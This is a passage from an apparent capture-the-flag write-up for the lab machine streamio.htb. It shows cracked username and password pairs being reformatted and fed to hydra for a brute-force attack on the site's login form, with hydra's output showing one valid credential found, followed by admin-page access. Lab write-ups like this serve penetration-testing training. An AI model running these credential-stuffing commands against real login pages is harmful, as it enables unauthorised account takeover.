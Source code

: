 We could try all manual, but let's automatize:

Let's format it for a bruteforce:

```
cat HASHESV2 | cut -d: -f1,3 > userpass
```

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

```
hydra -C userpass streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=failed"
```

Which will output:

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-12 21:54:58
[DATA] max 13 tasks per 1 server, overall 13 tasks, 13 login tries, ~1 try per task
[DATA] attacking http-post-forms://streamio.htb:443/login.php:username=^USER^&password=^PASS^:F=failed
[443][http-post-form] host: streamio.htb   login: yoshihide   password: 66boysandgirls..
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-12 21:55:00
```

We are able to connect and after further enumeration, access the admin page:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>
